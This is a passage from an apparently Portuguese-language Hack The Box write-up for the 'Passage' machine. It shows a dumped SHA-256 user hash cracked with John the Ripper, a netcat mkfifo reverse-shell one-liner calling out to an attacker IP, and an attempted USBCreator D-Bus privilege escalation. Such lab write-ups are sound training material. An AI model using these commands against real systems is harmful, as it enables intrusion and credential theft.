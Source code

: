 ```
Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
paul@passage.htb:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

```
$ john -format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hashes
Created directory: /home/zurc/.john
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
atlanta1         (?)
1g 0:00:00:02 DONE (2021-02-25 16:02) 0.4132g/s 5926Kp/s 5926Kc/s 17794KC/s (454579)..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Além da credencial, obtive um shell reverso interativo com a conta **www-data** a partir do envio do payload a seguir: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`. 

## User flag

### Enumeração 

Após executar o script `linpeas.sh`, encontrei alguns itens interessantes:

- Máquina é vulnerável a USBCreator

  ```
  [+] USBCreator
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
  Vulnerable!!
  ```

  Embora seja vulnerável, quando tentei explorá-la conforme explicado [neste link](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/), não funcionou corretamente dado a privilégios insuficientes:

  ```bash
  www-data@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
  Error: GDBus.Error:org.freedesktop.DBus.Python.dbus.exceptions.DBusException: com.ubuntu.USBCreator.Error.NotAuthorized
  (According to introspection data, you need to pass 'ssb')
  ```

- Observado 2 usuários na máquina, que inicialmente foram listados quando encontrei os endereços de e-mail e, para o usuário Paul, já temos uma possível senha. 
